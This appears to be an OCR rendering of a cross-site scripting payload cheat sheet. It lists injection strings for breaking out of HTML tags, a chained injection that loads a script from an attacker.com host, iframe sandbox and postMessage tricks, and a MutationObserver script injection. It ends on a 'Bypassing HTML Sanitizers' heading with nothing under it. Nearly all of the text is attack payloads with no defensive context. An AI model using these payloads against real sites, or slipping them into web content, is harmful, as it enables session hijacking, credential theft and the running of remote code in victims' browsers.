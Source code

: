 ```html
<script>alert(String.fromCharCode(88,83,83))</script> 
```

# Breaking Out of Tags

```html
"><img src=x onerror=alert('XSS');>
```

# Chained Injection

```html
"><script src=https://attacker.com/xss.js></script>
```

# Sandbox Escapes

# Bypassing Sandbox with PostMessage

```html
<iframe sandbox="allow-scripts" srcdoc="<script>window.parent.postMessage('XSS','*')</script>"></iframe>
```

# Exploiting Trusted Domains

```html
<iframe src="https://trusted-domain.com" onload="this.contentWindow.postMessage('<script>alert(1)</script>', '*')"></iframe>
```

# Using Mutation Observers

```javascript
var observer = new MutationObserver(function(mutations) {
  mutations.forEach(function(mutation) {
    if (mutation.addedNodes.length) {
      var script = document.createElement('script');
      script.innerHTML = 'alert("XSS")';
      document.body.appendChild(script);
    }
  });
});
observer.observe(document, { childList: true, subtree: true });
document.body.appendChild(document.createElement('div'));
```

# Bypassing HTML Sanitizers
